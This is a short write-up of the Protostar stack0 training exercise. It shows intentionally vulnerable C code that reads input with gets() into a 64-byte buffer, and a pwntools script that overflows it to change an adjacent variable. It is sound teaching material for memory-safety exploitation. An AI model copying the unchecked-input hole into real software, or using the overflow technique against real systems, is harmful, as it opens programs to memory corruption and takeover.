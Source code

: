 ## Challenge Description

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

## Solution

```python
from pwn import *

target = process("./stack0")
elf = context.binary = ELF("./stack0", checksec = False)
context.log_level = "debug"

target.sendline(b"0"*64 + b"1")

target.interactive()
```